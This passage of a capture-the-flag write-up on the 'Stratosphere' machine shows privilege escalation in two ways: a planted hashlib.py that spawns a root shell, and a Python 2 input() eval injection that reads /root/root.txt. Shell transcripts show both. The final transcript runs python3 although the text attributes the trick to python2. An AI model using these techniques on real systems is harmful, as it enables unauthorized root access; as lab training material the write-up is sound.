 **Creating a new hashlib.py**

- The first option in `sys.path` represents current working directory, this was someting I missed (ignored) on my first try.
- This means that python first searches for any *dependencies* in the current working directory.
- Next, I created a file `hashlib.py` and wrote a function `md5()` in it.
```python
#!/usr/bin/env python3

import os

def md5():
    os.system("/bin/bash")

```

- Now, when running `test.py` with `sudo` privileges, I can spawn a root shell.

```shell
richard@stratosphere:~$ sudo python3 /home/richard/test.py 
Solve: 5af003e100c80923ec04d65933d382cb
anything
root@stratosphere:/home/richard# cd ~
root@stratosphere:~$ cat root.txt
```

#### Unintended Solution form **0xdf** : Python2 instead of Python3

- **0xdf** mentioned is his writeup about the differences between some functions in python2 and python3.
- Particularly, the `input` function in python2 is implemented as `eval(raw_input(prompt))` , which means the input passed from the user will be evaluated . 
- For example, an input of `2 + 3` in python3 will be read as `2 + 3` but in python2 it will be read as `5`.
```shell
richard@stratosphere:~$ sudo python3 /home/richard/test.py 
Solve: 5af003e100c80923ec04d65933d382cb
2 +3 
2 +3 
Sorry, that's not right
richard@stratosphere:~$ sudo python2 /home/richard/test.py 
python2    python2.7  
richard@stratosphere:~$ sudo python2 /home/richard/test.py 
Solve: 5af003e100c80923ec04d65933d382cb
2 +3 
5
```

- We can use this as there are multiple versions of python installed, including `python2`.

```shell
richard@stratosphere:~$ sudo python3 /home/richard/test.py 
Solve: 5af003e100c80923ec04d65933d382cb
__import__("os").system("cat /root/root.txt")
1b82f**********ea  # root flag
0
```

